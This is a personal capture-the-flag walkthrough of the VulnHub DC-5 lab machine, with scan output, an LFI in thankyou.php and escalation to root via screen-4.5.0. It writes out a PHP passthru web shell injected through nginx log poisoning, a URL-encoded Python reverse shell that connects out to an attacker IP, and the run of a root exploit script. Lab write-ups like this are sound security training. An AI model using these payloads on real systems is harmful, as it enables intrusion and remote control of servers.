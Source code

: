 # BOX NAME: DC-5
**LINK**: https://www.vulnhub.com/entry/dc-5,314/

<details open><summary><ins>SUMMARY</ins></summary>

```
1. Enumerate box, pull hair. Notice footer changes, hmm. 
2. Mess with parameters ffuf and fine '?file='. Test for LFI. score.
3. Get reverse shell from CMD-INJECTION on nginx access.log
4. 
5.

```
</details>

# REMOTE ENUMERATION:

<details><summary><ins>TARGET</ins></summary>

```
[+] IP:		10.77.0.68
[+] URL:	http://dc-5
```
</details>
<details><summary><ins>NMAP</ins></summary>

```
└─$ nmap -sV -sC $IP -oN nmap-dc5.log
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 14:00 CEST
Nmap scan report for dc.local (10.77.0.68)
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
80/tcp  open  http    nginx 1.6.2
|_http-title: Welcome
|_http-server-header: nginx/1.6.2
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43146/tcp6  status
|   100024  1          44550/tcp   status
|   100024  1          47207/udp   status
|_  100024  1          49949/udp6  status

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.60 seconds

└─$ nmap -sV -sC $IP -p44550 -oN nmap-dc5-44550.log
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 14:01 CEST
Nmap scan report for dc.local (10.77.0.68)
Host is up (0.00041s latency).                                                                                      
                                                                                                                    
PORT      STATE SERVICE VERSION                                                                                     
44550/tcp open  status  1 (RPC #100024)                                                                             
                                                                                                                    
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.35 seconds

```
</details>
<details><summary><ins>WEB</ins></summary>

whatweb-scan
```
└─$ whatweb $URL --log-verbose=whatweb-dc5.log              
http://dc-5/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.6.2], IP[10.77.0.68], Title[Welcome], nginx[1.6.2]

```

nikto-scan
```
└─$ nikto -h $URL | tee nikto-dc5.log
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.77.0.68
+ Target Hostname:    dc-5
+ Target Port:        80
+ Start Time:         2023-05-02 14:01:31 (GMT2)
---------------------------------------------------------------------------
+ Server: nginx/1.6.2
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME ty
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 7850 requests: 0 error(s) and 3 item(s) reported on remote host                                      
+ End Time:           2023-05-02 14:02:11 (GMT2) (40 seconds)                                          
---------------------------------------------------------------------------                                         
+ 1 host(s) tested 
```

fuzzing
```
about-us.php            [Status: 200, Size: 4292, Words: 519, Lines: 54, Duration: 15ms]
contact.php             [Status: 200, Size: 4282, Words: 433, Lines: 72, Duration: 15ms]
faq.php                 [Status: 200, Size: 5645, Words: 709, Lines: 58, Duration: 14ms]
footer.php              [Status: 200, Size: 17, Words: 3, Lines: 1, Duration: 15ms]
index.php               [Status: 200, Size: 4025, Words: 484, Lines: 54, Duration: 11ms]
index.php               [Status: 200, Size: 4025, Words: 484, Lines: 54, Duration: 12ms]
solutions.php           [Status: 200, Size: 4100, Words: 485, Lines: 52, Duration: 15ms]
thankyou.php            [Status: 200, Size: 852, Words: 30, Lines: 43, Duration: 28ms]

thankyou.php?file=VULNERABLE LFI
thankyou.php?file=/var/log/nginx/access.log
GET /<?php passthru($_GET['BAM']); ?>
view-source:http://dc-5/thankyou.php?file=/var/log/nginx/access.log&BAM=%2Fusr%2Fbin%2Fpython%20-c%20%27import%20os%2Cpty%2Csocket%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28%2210.77.0.35%22%2C6666%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3Bos.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bpty.spawn%28%22%2Fbin%2Fbash%22%29%27
```
other
```

```

</details>

</details>

<details><summary><ins>SERVICES</ins></summary>

FTP
```

```

SSH
```

```

SNMP
```

```

DNS
```

```

MAILSERVICES (POP, IMAP, SMTP)
```

```

LDAP
```

```

</details>

<details><summary><ins>Active Directory</ins></summary>

Active Directory
```

```
</details>

<details><summary><ins>SUMMARY REMOTE</ins></summary>

```
1. So the thankyou.php page has a hidden ?file= parameter that allows for LFI.
```
</details>

# LOCAL ENUMERATION:

<details><summary><ins>FILES OF INTEREST</ins></summary>

**FILES**:
```

```

**SUID's**:

```
/bin/su
/bin/mount
/bin/umount
/bin/screen-4.5.0  <-----
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/sbin/mount.nfs
```
**SGID's**:

```
/usr/bin/procmail
/usr/bin/wall
/usr/bin/dotlockfile
/usr/bin/at
/usr/bin/mlocate
/usr/bin/mutt_dotlock
/usr/bin/crontab
/usr/bin/lockfile
/usr/bin/bsd-write
/usr/bin/chage
/usr/bin/expiry
/usr/bin/ssh-agent
/sbin/unix_chkpw
```
**OTHERS**:

```

```
</details>


# LOOT

<details><summary><ins>USEFUL INFORMATION:</ins></summary>

**Kernel Info:**
*file /bin/bash ; echo -e " \\n" && lsb_release -a ; echo -e "\\n" && uname -a*
```
/bin/bash: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=f89d987acd450c84e6f66c36203173d37e4f2fa2, stripped
 

No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 8.10 (jessie)
Release:        8.10
Codename:       jessie


Linux dc-5 3.16.0-4-amd64 #1 SMP Debian 3.16.51-2 (2017-12-03) x86_64 GNU/Linux
```
</details>

<details><summary><ins>CREDS:</ins></summary>

```
username:password

dc:
```
</details>

<details><summary><ins>HASHES:</ins></summary>

```

```
</details>

# PROOFS

<details><summary><ins>Proofs</ins></summary>

Final payload:
```
www-data@dc-5:/tmp$ chmod +x 41154.sh 
www-data@dc-5:/tmp$ ./41154.sh 
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

```

```

```
# cat thisistheflag.txt


888b    888 d8b                                                      888      888 888 888 
8888b   888 Y8P                                                      888      888 888 888 
88888b  888                                                          888      888 888 888 
888Y88b 888 888  .d8888b .d88b.       888  888  888  .d88b.  888d888 888  888 888 888 888 
888 Y88b888 888 d88P"   d8P  Y8b      888  888  888 d88""88b 888P"   888 .88P 888 888 888 
888  Y88888 888 888     88888888      888  888  888 888  888 888     888888K  Y8P Y8P Y8P 
888   Y8888 888 Y88b.   Y8b.          Y88b 888 d88P Y88..88P 888     888 "88b  "   "   "  
888    Y888 888  "Y8888P "Y8888        "Y8888888P"   "Y88P"  888     888  888 888 888 888 
                                                                                          
                                                                                          


Once again, a big thanks to all those who do these little challenges,
and especially all those who give me feedback - again, it's all greatly
appreciated.  :-)

I also want to send a big thanks to all those who find the vulnerabilities
and create the exploits that make these challenges possible.


```

</details>